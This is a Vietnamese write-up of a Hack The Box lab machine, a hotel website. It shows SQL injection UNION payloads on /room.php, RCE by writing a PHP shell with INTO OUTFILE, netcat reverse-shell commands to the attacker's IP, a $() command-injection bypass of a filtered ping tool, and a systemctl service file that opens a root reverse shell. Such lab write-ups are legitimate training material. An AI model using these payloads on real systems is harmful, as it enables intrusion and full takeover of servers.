

> Completed on `04/11/2023` | OS: `Linux`
> 
> Tools used: `nmap` `burp-suite`
> 

<!--more-->


## Overview

Quan sát qua trang web thì đây là một trang web của một khách sạn có tên là `Stark Hotel`. Trang khách sạn này cho chúng ta đặt phòng, đặt đồ ăn trực tiếp tại trang web và một vài chức năng khác….Chúng ta sẽ làm rõ hơn ở dưới bài viết!


---

## Reconnaisance

### nmap

Chúng ta sẽ dùng nmap để scan port, để xem trang web này chạy trên những port nào.

```shell
─$ nmap -sV -sC -vv stark.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:34 PDT
NSE: Loaded 156 scripts for scanning.

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzv4ZGiO8sDRbIsdZhchg+dZEot3z8++mrp9m0VjP6qxr70SwkE0VGu+GkH7vGapJQLMvjTLjyHojU/AcEm9MWTRWdpIrsUirgawwROic6HmdK2e0bVUZa8fNJIoyY1vPa4uNJRKZ+FNoT8qdl9kvG1NGdBl1+zoFbR9az0sgcNZJ1lZzZNnr7zv/Jghd/ZWjeiiVykomVRfSUCZe5qZ/aV6uVmBQ/mdqpXyxPIl1pG642C5j5K84su8CyoiSf0WJ2Vj8GLiKU3EXQzluQ8QJJPJTjj028yuLjDLrtugoFn43O6+IolMZZvGU9Man5Iy5OEWBay9Tn0UDSdjbSPi1X
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCDW2OapO3Dq1CHlnKtWhDucQdl2yQNJA79qP0TDmZBR967hxE9ESMegRuGfQYq0brLSR8Xi6f3O8XL+3bbWbGQ=
|   256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPuKufVSUgOG304mZjkK8IrZcAGMm76Rfmq2by7C0Nmo
80/tcp open  http    syn-ack Apache httpd 2.4.25 ((Debian))
|_http-title: Stark Hotel
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Completed NSE at 17:34, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.24 seconds
```

> `nmap -sV -sC -vv`
> 
> - `sV`: Tùy chọn này cho phép quét dịch vụ và xác định phiên bản của chúng.
> - `sC`: Tùy chọn này kích hoạt việc chạy các kịch bản đặc biệt được gọi là "scripts" trong Nmap.
> - `vv`: Tùy chọn này tăng mức độ chi tiết của đầu ra, cung cấp thông tin chi tiết và ghi lại quá trình quét một cách rõ ràng hơn.

| Port  | Service | Version |
| --- | --- | --- |
| 22 | ssh |  OpenSSH 7.4p1 Debian 10+deb9u6 |
| 80 | http | Apache httpd 2.4.25 |

Ngoài hai port `22` `80` thì chúng ta không scan ra được port nào nữa. Với port 80 thì chính là port đang chạy trang web trên còn port 22 thì kết nối ssh.

Các tool khác để recon như ffuf, dirsearch nhưng không thu được kết quả khả thi cho lắm, bây giờ chúng ta sẽ check lại kỹ hơn với chức năng của trang web trên.

---

## Initial access

Như đã nói ở trên thì trang web này chứa những chức năng như đặt phòng chọn đồ ăn, sau một lúc check thì thấy rằng có một lỗ hổng SQL Injection ở path `/room.php` 


Như trên hình thì có một parameter `cod = 1` , ở đây chúng ta sẽ check để xem nó dính SQLi hay không chỉ cần thêm cú pháp điều kiện `and` . 


Chúng ta sẽ dùng Burp Suite để check như sau `cod = 1 and 1=1` ⇒ khi này điều kiện `true` thì vẫn hiển thị bình thường, còn `cod =1 and 1=2` ⇒ khi này điều kiện `false` thì lúc này sẽ không có phòng nào hiện ra (Không thỏa mãn điều kiện để lấy data từ database).

**`⇒ Chúng tỏ rằng có thể inject được syntax sql trực tiếp vào query.`**

Tiếp theo chúng ta sẽ check số cột của bảng này, thì bảng này gồm 7 cột: 

```sql
cod = 1000000000 union select 1,2,3,4,5,6,7 --
```

- Ở đây chúng ta gán `cod =10000000` thì khi đó sẽ dễ debug hơn, tránh việc hiển thị các dữ liệu chúng ta không cần tới hoặc có thể dùng `cod =-1`
    
    
    

Như mọi bài chúng ta sẽ check xem database version và nó là version của MariaDB.

```sql
union select 1,2,3,4,@@version,6,7 -- 
```


---

> MariaDB là một hệ quản trị cơ sở dữ liệu quan hệ mã nguồn mở. Nó được phát triển từ phiên bản nhánh của MySQL sau khi Oracle mua lại Sun Microsystems, công ty sở hữu MySQL. MariaDB được phát triển bởi các nhà phát triển chính của MySQL với mục tiêu tạo ra một hệ quản trị cơ sở dữ liệu mã nguồn mở, tương thích ngược với MySQL và cung cấp các tính năng và cải tiến mới.
> 

Trong MySQL nó chung hay MariaDB nói riêng thì có một function là `load_file()` có thể giúp chúng ta đọc được nội dung file system.


 **** Câu hỏi đặt ra lúc này là chúng ta sẽ có bao nhiều cách để có thể RCE được con server này?***

Lúc này có thể có hai hướng như sau: 

- Tiếp tục Inject Sql để lấy usename/password của phpadmin và login vào đó rồi tạo một con shell ở đó.
- Có thể dùng một câu lệnh nào đó để insert một con shell vào server.

Sau một lúc research thì mình kiếm được một link này: ***[RCE via SQL Injection](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/) ,*** nó sử dụng câu lệnh `INTO OUTFILE` để xuất dữ liệu từ một query SQL vào một tệp tin trên server. Cụ thể là document root.


Ở đây chúng ta sẽ tạo một con shell php vào document root và try cập nó thông qua phương thức `POST`


Bây giờ chúng ta đã exploit thành công con server này, như có một vấn đề là mỗi lần chúng ta sử dụng cmd lại một lần gửi request thì nó hơi bất tiện ⇒ Phương pháp lúc này chúng ta sẽ sử dụng `reverse shell` về máy tính của chúng ta.

```bash
nc your_ip 9001 -e /bin/bash
# ncat or busybox
```



Ở phía máy chúng ta sẽ setup như sau: 


Ở đây khi connect thì nhìn vào dòng lệnh nó trống không…Chúng ta cần chỉnh một xíu để dễ nhìn và sử dụng hơn bằng các tạo một internal bash:

```bash
python -c 'import pty;pty.spawn("bash")'
```

> `python -c 'import pty;pty.spawn("bash")'` là một câu lệnh dòng lệnh Python được sử dụng để tạo một môi trường nền tảng dòng lệnh tương tác (interactive shell) trong Python. Cụ thể, nó sử dụng module `pty` để tạo một phiên bản shell Bash nội bộ.
> 
> 
> Dưới đây là cách hoạt động của đoạn mã:
> 
> 1. `python -c`: Đây là cú pháp để chạy một đoạn mã Python trực tiếp từ dòng lệnh.
> 2. `'import pty;pty.spawn("bash")'`: Đây là mã Python được truyền vào để thực thi. Nó bao gồm hai phần:
>     - `import pty`: Câu lệnh này nhập module `pty` trong Python, cho phép tương tác với shell.
>     - `pty.spawn("bash")`: Câu lệnh này sử dụng hàm `spawn` từ module `pty` để tạo một phiên bản shell Bash nội bộ. Khi được thực thi, nó sẽ mở một shell Bash mới, cho phép bạn tương tác với nó như một môi trường dòng lệnh thông thường.


## Privilege Escalation

### www-data → pepper

Bước tiếp theo sau khi `initial access` thì lúc này chúng ta có thể đọc dữ liệu người dùng nhưng không có dễ như thế…


Ở đây `user:www-data` không có quyền đọc file user.txt, vậy chúng ta sẽ dùng lệnh `sudo -l` để xem `www-data` có thể chạy sudo mà không cần mật khẩu.


- Ở đây có một file `[simpler.py](http://simpler.py)` mà www-data có thể chạy với quyền như người dùng `pepper` mà không cần mật khẩu.

Xem xét file [simpler.py](http://simpler.py) ở dưới:

```python
**#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()

    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1

    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)

def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req

def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()**
```

Tool này sử dụng để list và ping địa chỉ ip của attacker, sau một lúc xem xét thì chúng ta có thể nhận ra một lỗ hổng ở trong tool này như sau:

```bash
**def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)**
```

> Hàm này thực hiện ping tới một địa chỉ ip và đầu vào của nó được filter các ký tự gây nên OS Command: **`'&', ';', '-', '`', '||', '|'`** 
Nhưng người viết tool này quên rằng có thể chạy command với `$()` như `$(ls)`(Hãy tìm hiểu về lỗ hổng OS Command để hiểu rõ vấn đề này)
> 
> 
> 
> 

Vậy lúc này chúng ta có thể kiểm soát tool này với quyền như một người dùng `pepper` . Ý tưởng ở đây thì vẫn có 2 cách mà được biết:

- Tạo một file [shell.sh](http://shell.sh) với nội dung: `nc your_ip 9001 -e /bin/bash` , sau đó thực hiện `$(shell.sh)` - nhớ cần cấp quyền thực thi cho nó `chmod +x shell.sh`
- Chạy subshell `$(bash)` và có vấn đề stdout không hiển thị nên cần chuyển hướng `stdout` sang `stderr` bằng cách: `>&2 /bin/bash`

```shell
Enter an IP: $(bash)
$(bash)
pepper@jarvis:/var/www/html$ >&2 /bin/bash
>&2 /bin/bash
pepper@jarvis:/var/www/html$ ls
ls
ayax            css              images      room.php          sudo
b4nn3d          dining-bar.php   index.php   roomobj.php
cmd.php         fonts            js          rooms-suites.php
connect_db.php  footer.php       nav.php     sass
connection.php  getfileayax.php  phpmyadmin  shell.sh
```

```shell
pepper@jarvis:~$ cat user.txt
cat user.txt
5ebf94dfcd1cf0279efc805********
```

### pepper → root

Chúng ta đã tận dụng lỗ hổng trong tool [simpler.py](http://simpler.py) để leo quyền lên `pepper` . Vấn đề tiếp theo chúng ta cần leo tiếp lên `root`  . 

***Vậy làm cách nào ….. ?***

Đầu tiên chúng ta cần tìm cách file nhị phân có flag SUID mà cho phép người dùng thực thi file đó với quyền của chủ sở hữu (Ở đây là root).

Sử dụng lệnh `find` để tìm các file với quyền thực thi /4000.

> `find / -type f -perm /4000` được sử dụng để tìm kiếm các tập tin trong hệ thống tệp với quyền truy cập đặc biệt setuid/setgid (set user ID/group ID). Đây là một quyền đặc biệt cho phép chạy tập tin với đặc quyền của người dùng hoặc nhóm chủ sở hữu, thay vì đặc quyền của người dùng chạy tập tin.
> 
> 
> Dưới đây là ý nghĩa của các cờ và cú pháp trong lệnh:
> 
> `/` : Đường dẫn gốc để bắt đầu tìm kiếm. Dấu gạch chéo ngược (/) đại diện cho thư mục gốc.
> `-type f` : Chỉ tìm kiếm các tệp tin (file), không bao gồm các thư mục.
> `-perm /4000` : Tìm kiếm các tập tin có quyền truy cập setuid hoặc setgid (quyền 4000). 
> 

```shell
pepper@jarvis:/$ find / -type f -perm /4000 2>/dev/null
find / -type f -perm /4000 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Ở đây có rất nhiều file nhưng sau một lúc check thì có một file nhị phân là `systemctl` mà người dùng `pepper` có thể thực thi với quyền `root`

```shell
pepper@jarvis:/$ ls -lia /bin/systemctl
ls -lia /bin/systemctl
9420 -rwsr-x--- 1 root pepper 174520 Jun 29  2022 /bin/systemctl
```


> **Lệnh systemctl** là công cụ quản lý dịch vụ trong [systemd](https://bkhost.vn/blog/huong-dan-su-dung-systemd/). Nó cho phép quản lý các dịch vụ, tiến trình và các mô-đun khác trong hệ thống. Lệnh systemctl có thể được sử dụng để khởi động, dừng, khởi động lại và kiểm tra trạng thái của các dịch vụ. Các tính năng chính của lệnh systemctl bao gồm:
> 
> - Khởi động, dừng và khởi động lại các dịch vụ.
> - Kiểm tra trạng thái của các dịch vụ.
> - Xem các thông tin chi tiết về các dịch vụ.
> - Quản lý các file cấu hình dịch vụ.

Ở trang này [`systemctl | GTFOBins`](https://gtfobins.github.io/gtfobins/systemctl/) cho chúng ta ví dụ về cách leo quyền vi `systemctl`


```bash
pepper@jarvis:/tmp$ cat  tmp.M8THt6Ob5T.service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc your_ip 9003 -e /bin/bash"
[Install]
WantedBy=multi-user.target
pepper@jarvis:/tmp$ mv tmp.M8THt6Ob5T.service /home/pepper/shell.service
pepper@jarvis:/tmp$ cd /home/pepper
pepper@jarvis:~$ ls
Web  shell.service  user.txt
pepper@jarvis:~$ systemctl enable --now /home/pepper/shell.service
systemctl enable --now /home/pepper/shell.service
Created symlink /etc/systemd/system/multi-user.target.wants/shell.service -> /home/pepper/shell.service.
Created symlink /etc/systemd/system/shell.service -> /home/pepper/shell.service.
```

Sau khi mình tạo một file service như trên thì đổi tên và chuyển nó tới path `pepper` và thực hiện kích hoạt service ngay lập tức.

Ở phía máy chúng ta sẽ tiếp tục dùng `nc` để nhận kết nối từ server nạn nhân như ở phía dưới:

```shell
└─$ nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.10.14.35] from (UNKNOWN) [10.129.229.137] 41586
python -c 'import pty;pty.spawn("bash")'
root@jarvis:/# ls
ls
bin   home            lib32       mnt   run   tmp      vmlinuz.old
boot  initrd.img      lib64       opt   sbin  usr
dev   initrd.img.old  lost+found  proc  srv   var
etc   lib             media       root  sys   vmlinuz
root@jarvis:/# cd /root
cd /root
root@jarvis:/root# cat root.txt
cat root.txt
d2b11af8e0e27e1ff945ea687a******
```

## Conclusion

Thông qua bài này chúng ta đã học cách thực hiện RCE via SQL Injection , từ đó thu thập các tài nguyên, leo quyền thông qua lỗ hổng của tool và file nhị phân….